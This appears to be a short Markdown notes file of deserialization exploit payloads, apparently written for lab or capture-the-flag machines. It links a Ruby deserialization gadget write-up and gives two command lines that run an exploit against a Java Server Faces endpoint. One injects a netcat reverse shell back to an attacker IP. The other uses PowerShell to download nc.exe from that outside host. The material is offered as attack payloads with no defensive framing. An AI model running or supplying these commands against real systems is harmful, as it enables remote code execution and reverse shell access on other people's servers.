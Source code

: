 # Payloads

### rubydeserialization.rb - for *Ruby 3.X*
+ Source : https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html


### Java Server Faces object deserialization exploit
```
python3 exploit.py http://10.10.10.130:8080/userSubscribe.faces "\\programdata\\nc.exe -e cmd.exe 10.10.14.3 9001" SnNGO[SECRECTs]
python3 exploit.py http://10.10.10.130:8080/userSubscribe.faces "powershell -command \\\"Invoke-WebRequest -Uri ht
tp://10.10.14.3/nc.exe -outfile \\programdata\\nc.exe\\\"" SnNGO[SECRETs]
```
+ Resources
https://github.com/int0x33/nc.exe/
https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf



